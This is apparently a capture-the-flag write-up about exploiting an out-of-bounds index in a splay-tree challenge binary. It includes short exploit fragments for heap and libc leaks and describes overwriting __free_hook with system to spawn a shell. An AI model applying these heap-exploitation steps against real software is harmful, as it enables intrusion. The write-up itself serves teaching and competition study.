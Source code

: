 # The bug

The bug is a very obvious OOB that exists in the `select` function.

```
unsigned long select(sp *tree, int idx)
{
  struct node *e;

  e = tree->vector[idx];                          // OOB
  sp_select(tree, &e->tree_metadata);
  return e->y;
}
```

Basically, the `select` function takes the idx'th element from the vector and places it on top of the tree. By faking a node on a tree we can manipulate the entire tree structure.

# Heap Leak

Each node looks like this:

```
struct node {
	unsigned long x;
	unsigned long y;
	unsigned long unk1;
	unsigned long unk2;
	unsigned long idx;

	struct tree_metadata {
		struct tree_metadata *parent;
		struct tree_metadata *lchild;
		struct tree_metadata *rchild;
		unsigned long size;
	} meta;
};
```
And by using the given features we can get the contents of x and y in the nodes. This can be used for an infoleak. However, in order to fake a node we need to store a pointer pointing to it. I did this by using the freed chunks of `tcache`. In each freed chunk of tcache there is a pointer pointing to its `prev` chunk. By using this, we can get the `x` value of a freed chunk faked to a node, which is a heap address.


```
for i in range(5):
		add(i,i)

delete(0)
delete(1)
delete(2)
delete(3)
delete(4)

idx = (0x7fc6681fc370 - 0x7fc6681fb260)//8

select(idx)
HEAP = getnth(0)

log.info("HEAP: 0x%x"%HEAP) # 0x7f68373c72d0
```

# LIBC Leak and arbitrary write

After a long time of thinking, I decided to use a section of memory that has lots of NULLs but also contains some important pointers. It is important that the section has an abundance of NULLs so that the `select` function does not attempt to recurse to its parent or children. The ideal memory section that I thought of was the tcache structure, located in the heap base. 

```
void find_and_add(struct sp *tree, unsigned long incr, unsigned long x, unsigned long y)
{

  struct node *node = sp_isolate(tree, x, y);
  if ( node )
    *(_QWORD *)(node - 0x18) += a2;
}
```

By using this functionality, we can get a write primitive. By overwriting the tcache head to an unsorted bin we can get a node allocated at an unsorted bin, and when we get the `x` value of it we get a libc address. 

# Getting a shell

Afterwards everything is easy, we can use the primitives discussed to get arbitrary write, overwriting `__free__hook` with `system` and calling `free("/bin/sh")`
